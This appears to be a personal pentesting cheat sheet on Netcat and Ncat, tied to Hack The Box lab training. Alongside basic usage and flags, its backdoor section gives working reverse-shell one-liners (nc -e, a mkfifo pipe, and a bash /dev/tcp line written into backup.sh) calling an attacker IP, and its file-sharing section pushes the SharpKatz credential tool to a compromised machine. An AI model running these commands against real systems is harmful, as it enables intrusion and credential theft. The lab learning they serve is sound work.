 **Netcat** functions as a back-end tool that allows for **port scanning and port listening**. In addition, you can actually *transfer files* directly through Netcat or use it as a backdoor into other networked systems.
Nmap Project produced **Ncat**, a modern reimplementation that supports *SSL, IPv6, SOCKS and HTTP proxies*, connection brokering, and more.

---
# Connect to a Server
In the simplest usage, "nc [host]  [port]" creates a *TCP connection to connect to the given port on the given target host*.  Your standard input is then sent to the host, and anything
that comes back across the connection is sent to your standard output.  This continues indefinitely, until the network side of the connection shuts down.  Note
that this behavior is different from most other applications which *Shut everything down* and exit after an end-of-file on the standard input.
Ex: **nc 10.10.16.54 21**

---
# Syntax
```sh
rlwrap -f . -r nc -nvlp [Port]
```
- **-n** : To Spectify An ***IP Address***, Not a *Domain Name*
- **-v** : Enable *Verbosity*
- **-l** : *Listen* For Requests On That Specific Port
- **-p** : *Port Number*
- **-k** : Keep listening after client disconnects
- **-n** : *Don't Resolve* The Name Via DNS
- **-u** : UDP Scan
- **-w** : Wait For The *Specified Amount Of Time*, Disconnect Afterwards
- **-e** : *Execute Commands*
- **-z** : *Port Scan* 
![[Pasted image 20221120213934.png]]
Here, *Connection Refused* Means *Closed Port*
Or *Firewall Is Blocking Your Requests (Rarely Happens)*


 ## Create A Backdoor
	 - Start Listening On Any Port With The Host Machine.
	    rlwrap -f . -r nc -nvlp [Port Number]
	 - Go To The Target Machine And Connect On The Port Of The Host Machine's IP
		 nc [Host IP] [Port Number] -e /bin/bash (If Linux)
		 nc [Host IP] [Port Number] -e cmd.exe (If Windows)
	- If this Technique *doesn't work*, try this :-
```sh
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.139.254 6666 >/tmp/f

# If in a file
echo "#!/bin/bash" > backup.sh
echo "/bin/bash -c 'bash -i >& /dev/tcp/10.8.139.254/1234 0>&1'" >> backup.sh
```

**rm /tmp/f ;** _#_ _removes any pre-existing directory called ‘/tmp/f’, the semicolon ends the command similar to hitting the ENTER key_ 
**mkfifo /tmp/f ;** _# creates a_ [_named pipe_](https://opensource.com/article/18/8/introduction-pipes-linux) _at the location ‘/tmp/f’_, semicolon ends the command  
**cat /tmp/f |** _# displays the contents of ‘/tmp/f’ and pipes the results into the next command_  
**/bin/sh -i 2>&1 |** _# invokes the default shell binary, the ‘-i’ tells it to use interactive mode,_ [_redirect stderr2 to the same destination as stdout1_](https://www.howtogeek.com/435903/what-are-stdin-stdout-and-stderr-on-linux/)_, and pipe that to the next command_  
**nc 10.8.6.159 1337 >/tmp/f** _# tell netcat to connect to the remote IP and PORT and redirect that output to the named pipe_


## File Sharing
- On Compromised Machine
```sh
# Using nc
nc -l -p 8000 > [Filename]


# Using ncat
ncat -l -p 8000 --recv-only > [Filename]
```

- On Attack Box
```sh
# Using nc
nc -q 0 [IP] 8000 < SharpKatz.exe
-q 0 will tell Netcat to close the connection once it finishes

# Using ncat
ncat --send-only [IP] 8000 < SharpKatz.exe
```

If we *don't have Netcat or Ncat on our compromised machine*, Bash supports read/write operations on a pseudo-device file `/dev/TCP/`.

```sh
# Sending file as input to Netcat/Ncat
nc -l -p 443 -q 0 < SharpKatz.exe
ncat -l -p 443 --send-only < SharpKatz.exe

# On Target Machine
cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```


For more Info: https://academy.hackthebox.com/module/24/section/161

